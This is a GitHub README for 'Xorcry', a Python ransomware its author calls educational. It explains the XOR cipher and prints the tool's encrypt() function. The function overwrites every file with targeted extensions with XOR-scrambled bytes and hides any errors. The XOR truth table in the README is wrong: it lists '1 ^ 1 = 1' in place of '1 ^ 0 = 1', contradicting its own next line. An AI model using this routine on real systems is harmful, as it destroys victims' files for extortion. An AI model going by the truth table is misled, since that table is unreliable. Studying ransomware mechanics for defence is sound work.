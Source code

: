# Xorcry

Xorcry is an open-source ransomware written in python3 to explain how actually a ransomware or a crypter with a given cryptography algorithm do works.

# Why?

as a curious person, I really love to understand how things get to work deeply, and one of the questions that I've been asking for a long time was how does the ransomware work? after a lot of disappointing research to give my question a clear answer, I started diving into cryptography algorithms and malware understanding, so without any further ado let's leave this boring introduction aside a bit and go with the cool part.

## How Does Xorcry Work?

first of all, you must make sure that I did this tool only for educational purposes, secondly, if you are a cryptographer you will find this writeup boring you.

there are a lot of cryptography algorithms you can use to make ransomware but I'm not going to explain them for the reason that I didn't use any known crypto algorithm, in fact, what I  did is reading files as binary and xor them with a given key and this is what called **xor cipher**, but wait, I said **xor cipher** hmmm what is this? well, this will be our next topic.

## Xor Cipher

I'll assume that you have a background about Logic gates and what are they, but if you don't I  want you to take a deep look at this
article from Wikipedia :

``[wikipedia](https://en.wikipedia.org/wiki/Logic_gate target)``

well as you noticed  In **xor** operation, the output is true when the inputs differ. In other words, **xor** operation means either one but not both or none.

Below you can find the principles of **xor** (^ denotes the **xor** operation):

```
0 ^ 0 = 0
0 ^ 1 = 1
1 ^ 1 = 1
1 ^ 1 = 0
```

**xor** cipher employs the **xor** logical operation in order to encrypt data. First, a random key is generated or is chosen by you. Then, **xor** operation is performed using the key so that an encrypted data is created. In order to decrypt, the same key should be used and **xor** operation should be run again.

**xor** operation uses the same key for both encryption and decryption operations. That is why it is known as a symmetric encryption.

## Code Explaining

before covering the code explaining, I'll assume again that you have the basics of the programming language Python in order to understand The rest of the code because I will cover only the most important function which is :

```python
def encrypt(self , f) :

		''' If the file's extension is one of the list declared above then start XoRing '''

		if self.check_ex(f) :

			try :
				with open(f , mode = "rb") as _file :
					rd = bytearray(_file.read())
				for n , v in enumerate(rd) :
					rd[n] = v ^ self.key
				with open(f , mode = "wb") as _nf :
					_nf.write(rd)

				''' This exception is especially for file permissions '''

			except :
				pass
```

the first line I will talk about is the operation of reading the file we want to encrypt in binary mode and declare a variable where we will put the binary data as a list using the built-in function _bytearray()_, I found this article useful for those who want to understand how does the *bytearray()* work :

``
https://www.geeksforgeeks.org/python-bytearray-function/
``

after that, there is a for loop to edit the list by performing **xor** operation for each element in the list with the given key and finally rewrite the file we have opened previously with the new encrypted data.
